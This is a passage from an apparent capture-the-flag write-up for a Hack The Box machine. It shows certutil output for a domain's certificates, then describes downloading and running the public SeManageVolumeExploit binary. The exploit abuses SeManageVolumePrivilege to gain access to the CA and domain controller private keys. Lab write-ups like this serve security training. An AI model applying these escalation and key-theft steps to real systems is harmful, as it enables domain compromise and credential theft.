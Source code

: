```
Subject: CN=DC01.certificate.htb
Certificate Template Name (Certificate Type): DomainController
Non-root Certificate
Template: DomainController, Domain Controller
Cert Hash(sha1): 779a97b1d8e492b5bafebc02338845ffdff76ad2
  Key Container = 46f11b4056ad38609b08d1dea6880023_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft RSA SChannel Cryptographic Provider
Missing stored keyset

================ Certificate 2 ================
~$ Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Provider = Microsoft Software Key Storage Provider
Missing stored keyset
CertUtil: -store command completed successfully.
```

<p class="indent-paragraph">
Following the discovery that the user <code>Ryan.K</code> possessed the <code>SeManageVolumePrivilege</code> right, a lesser-known but effective privilege escalation technique was identified. This specific privilege allows a user to perform maintenance tasks on system volumes, which can be exploited to create arbitrary files on disk with <code>SYSTEM-level</code> ownership. To weaponize this capability, the open-source tool <a href="https://github.com/CsEnox/SeManageVolumeExploit" target="_blank">SeManageVolumeExploit</a> by <code>CsEnox</code> was selected.
</p>

```
~$ curl -LO https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100 12288  100 12288    0     0  37493      0 --:--:-- --:--:-- --:--:-- 37493
                                                                                                                                                                                                                          
~$ file SeManageVolumeExploit.exe                                                                                                     
SeManageVolumeExploit.exe: PE32+ executable for MS Windows 6.00 (console), x86-64, 6 sections
```

<p class="indent-paragraph">
To exploit the <code>SeManageVolumePrivilege</code><span class="codefix">,</span> the binary <code>SeManageVolumeExploit.exe</code> was uploaded and executed with the target path <code>C:\ProgramData\Microsoft\Crypto\RSA\MachineKeys</code><span class="codefix">.</span> This path stores certificate private keys, and the exploit creates fake key containers matching existing certificates. As a result, Windows stopped reporting "Missing stored keyset", allowing the private key to be accessed and the certificate to be exported successfully.
</p>
